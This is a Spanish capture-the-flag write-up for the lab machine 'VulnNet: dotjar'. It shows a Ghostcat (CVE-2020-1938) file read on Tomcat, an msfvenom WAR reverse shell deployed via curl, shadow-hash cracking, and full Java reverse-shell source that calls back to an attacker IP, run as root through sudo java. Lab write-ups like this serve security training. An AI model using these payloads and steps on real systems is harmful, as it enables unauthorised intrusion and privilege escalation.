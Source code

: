 # VulnNet: dotjar

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `8009` para `ajp13`, el `8080`, para `HTTP` 

<figure><img src="../.gitbook/assets/VulnNet: dotjar/nmap.png" alt=""><figcaption></figcaption></figure>

Al enumerar las páginas, no encontramos nada interesante; solo se abre la página de `Tomcat`. Sin embargo, aquí hay un dato relevante: la versión que está ejecutando es `Apache Tomcat/9.0.30`. Al buscar en internet, descubrimos que existe un exploit para esta versión.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/tomcat.png" alt=""><figcaption></figcaption></figure>

El siguiente enlace nos proporciona una introducción sobre cómo funciona el exploit. Podemos optar por clonar el repositorio o simplemente descargar el archivo `.py`.

{% embed url="https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md" %}

Una vez que lo descargues es facil de implementar.

```
python CVE-2020-1938.py <IP address> -p 8009 -f WEB-INF/web.xml 
```

Esto nos proporciona unas credenciales que nos permiten iniciar sesión en `Tomcat`.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/creds.png" alt=""><figcaption></figcaption></figure>

Aunque no contamos con una interfaz gráfica para acceder directamente a la página web, podemos hacerlo desde la terminal utilizando `curl`. Aquí realizaremos un despliegue en la página web para obtener nuestra `reverse shell` en el servidor.

Primero, necesitamos el archivo `.war` que contenga nuestro `payload`. Podemos generarlo utilizando `msfvenom` con el siguiente comando:

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=4242 -f war > shell.war
```

Esto nos permitirá realizar un despliegue en `Tomcat` para que lo cargue directamente en la web, lo que nos proporcionará una `reverse shell`.

```
curl -u webdev -T shell.war 'http://10.201.15.169:8080/manager/text/deploy?path=/shell.war'
```

Se nos pedirá la contraseña que encontramos anteriormente, y recibiremos un mensaje indicando que se ejecutó con éxito.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/upda.png" alt=""><figcaption></figcaption></figure>

Realizamos una solicitud a la dirección donde colocamos nuestra `reverse shell`, que es la siguiente:

```
http://<ip>:8080/shell.war
```

Y obtenemos una shell que nos ayudará a elevar nuestros privilegios.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/curklq.png" alt=""><figcaption></figcaption></figure>

# \web

Después de la enumeración, identificamos un vector que nos permite leer una copia de seguridad ubicada en `/var/backup`, específicamente el archivo `shadow-backup-alt.gz`.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/backjup.png" alt=""><figcaption></figcaption></figure>

Lo copiamos al directorio `/tmp` para poder extraer la informacion:

```
cp shadow-backup-alt.gz /tmp

cd /tmp

gunzip shadow-backup-alt.gz
```

<figure><img src="../.gitbook/assets/VulnNet: dotjar/hsadow.png" alt=""><figcaption></figcaption></figure>

Leemos el archivo y confirmamos que contiene lo que esperábamos: un archivo con las copias de seguridad de los `shadows` de los `usuarios`. Lo copiamos a nuestra máquina para poder descifrar la contraseña de `jdk-admin`.

```
jonh --wordlist /usr/share/wordlist/rockyou.txt hash
```

<figure><img src="../.gitbook/assets/VulnNet: dotjar/uncripshadow.png" alt=""><figcaption></figcaption></figure>

# \jdk-admin

De esta manera, obtenemos acceso `SSH` para el usuario `jdk-admin`, así como el archivo `user.txt`.

<figure><img src="../.gitbook/assets/VulnNet: dotjar/user.png" alt=""><figcaption></figcaption></figure>

Realizamos una enumeración con `linpeas.sh`. Tenemos varios ataques que podemos desarrollar, pero podemos suponer que está relacionado con `Java`, ya que se menciona al iniciar el laboratorio. Con el usuario y la contraseña de `jdk-admin`, podemos ejecutar el siguiente comando:

```
sudo -l
```

<figure><img src="../.gitbook/assets/VulnNet: dotjar/sudo-l.png" alt=""><figcaption></figcaption></figure>

Esto indica que podemos ejecutar cualquier archivo `.jar` con el usuario `root`, lo que nos permite implantar otra `reverse shell` para obtener los permisos de `root`.

1. Creamos nuestro archivo con código de java que es `shell.java`

```
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class shell {
    public static void main(String[] args) {
        String host = "10.9.2.64";
        int port = 4243;
        String cmd = "sh";
        try {
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host, port);
            InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0)
                    so.write(pi.read());
                while (pe.available() > 0)
                    so.write(pe.read());
                while (si.available() > 0)
                    po.write(si.read());
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {}
            }
            p.destroy();
            s.close();
        } catch (Exception e) {}
    }
}
```

2. Creamos un archivo llamado `MANIFEST.MF`

```
Manifest-Version: 1.0
Main-Class: shell
```

3. Ejecutamos `javac` para compilar las clases que tenemos que solo es una, y con la version correcta para que se ejecute en el sistema victima.

```
 javac -source 1.8 -target 1.8 shell.java
```

Te quedara un archivo `shell.class`

<figure><img src="../.gitbook/assets/VulnNet: dotjar/class.png" alt=""><figcaption></figcaption></figure>

1. Con todos los archivos anteriores ya podemos crear nuestro archivo `.jar`

```
jar cfm shell.jar MANIFEST.MF shell.class
```

<figure><img src="../.gitbook/assets/VulnNet: dotjar/jar.png" alt=""><figcaption></figcaption></figure>

Solo quería descargar nuestro archivo `.jar` en los archivos del sistema de la víctima, y puedes hacerlo utilizando `Python`.

Maquina Atacante:

```
python3 -m http.server <port>
```

Maquina Victima:
```
wget http://<ip>:<port>/shell.jar
```

Por último, debemos iniciar el oyente y ejecutar el archivo con los permisos de `root` para obtener nuestro último archivo, `root.txt`.

Maquina Atacante:
```
nc -lvnp <port>
```

Maquina Victima:
```
sudo -u root /usr/bin/java -jar shell.jar
```

<figure><img src="../.gitbook/assets/VulnNet: dotjar/root.png" alt=""><figcaption></figcaption></figure>

-------------

>*El mayor error que puedes cometer es tener miedo de hacer algo todo el tiempo.* ~ Elbert Hubbard
>
>*Con esto quiero enfatizar que el miedo a equivocarse es más paralizante que el error en sí. El error puede enseñarnos y abrir nuevos caminos, mientras que el miedo constante al fracaso nos detiene y nos impide vivir plenamente. El verdadero coraje no es la ausencia de miedo, sino la decisión de actuar a pesar de él.*
>
><figure><img src="../.gitbook/assets/VulnNet: dotjar/touthou.png" alt=""><figcaption></figcaption></figure>

